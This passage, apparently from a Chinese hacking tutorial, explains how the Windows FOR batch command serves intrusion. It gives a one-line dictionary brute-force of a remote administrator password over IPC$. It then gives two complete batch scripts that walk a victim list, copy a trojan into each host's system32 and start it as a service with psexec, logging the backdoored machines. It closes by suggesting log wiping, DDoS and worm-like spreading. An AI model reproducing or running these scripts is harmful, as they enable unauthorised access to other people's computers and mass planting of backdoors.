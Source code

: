 在以上例子中，%I 和 PATH 可用其他有效数值代替。%~ 语法
用一个有效的 FOR 变量名终止。选取类似 %I 的大写变量名
比较易读，而且避免与不分大小写的组合键混淆。

以上是MS的官方帮助，下面我们举几个例子来具体说明一下For命令在入侵中的用途。

sample2：

利用For命令来实现对一台目标Win2k主机的暴力密码^^。
我们用net use \\ip\ipc$ "password" /u:"administrator"来尝试这和目标主机进行连接，当成功时记下密码。
最主要的命令是一条：for /f i% in (dict.txt) do net use \\ip\ipc$ "i%" /u:"administrator"
用i%来表示admin的密码，在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－
for /f i%% in (dict.txt) do net use \\ip\ipc$ "i%%" /u:"administrator"│find ":命令成功完成">>D:\ok.txt ，这样就ko了。

sample3：

你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。

主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 %%variable）
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call door.bat %%i %%j %%k
tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。
而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的文件。
delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的对象来排列，一般就是 ip password username。
代码雏形：
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------
@echo off
@if "%1"=="" goto usage
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k
@goto end
:usage
@echo run this batch in dos modle.or just double-click it.
:end
/*http://www.xjkel.com*/
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------

------------------- cut here then save as a batchfile(I call it door.bat) -----------------------------
@net use \\%1\ipc$ %3 /u:"%2"
@if errorlevel 1 goto failed
@echo Trying to establish the IPC$ connection ............OK
@copy windrv32.exe\\%1\admin$\system32 && if not errorlevel 1 echo IP %1 USER %2 PWD %3 >>ko.txt
@psexec \\%1 c:\winnt\system32\windrv32.exe
@psexec \\%1 net start windrv32 && if not errorlevel 1 echo %1 Backdoored >>ko.txt
:failed
@echo Sorry can not connected to the victim.
/*http://www.xjkel.com*/
----------------- cut here then save as a batchfile(I call it door.bat) --------------------------------
这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究.

